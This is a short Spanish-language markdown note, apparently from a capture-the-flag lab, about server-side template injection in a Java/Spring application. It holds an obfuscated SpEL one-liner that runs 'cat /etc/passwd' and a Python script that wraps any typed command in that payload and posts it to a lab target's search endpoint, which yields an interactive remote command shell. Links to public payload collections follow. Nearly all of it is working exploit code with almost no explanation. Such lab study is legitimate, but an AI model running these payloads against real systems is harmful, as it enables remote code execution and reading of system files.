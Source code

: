 
{:.note}
Este es parte de las pruebas. 


***

```bash
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```


{:.note}
Este one-liner lo encuentras en la seccion de java retrieve /etc/passwd. 


***
### Pimera opccion.

```Python
#!/usr/bin/python3
import requests
from cmd import Cmd
from bs4 import BeautifulSoup
class RCE(Cmd):
    prompt = "\033[1;31m$\033[1;37m "
    def decimal(self, args):
        comando = args
        decimales = []

        for i in comando:
            decimales.append(str(ord(i)))
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % decimales[0]

        for i in decimales[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"
        data = { "name": payload }
        requer = requests.post("http://10.10.11.170:8080/search", data=data)
        parser = BeautifulSoup(requer.content, 'html.parser')
        grepcm = parser.find_all("h2")[0].get_text()
        result = grepcm.replace('You searched for:','').strip()
        print(result)

    def default(self, args):
        try:
            self.decimal(args)
        except:
            print("%s: command not found" % (args))

RCE().cmdloop()
```


[Hacktricks]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
[Blog]: https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings
[recurso]: https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/
[tty]: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys 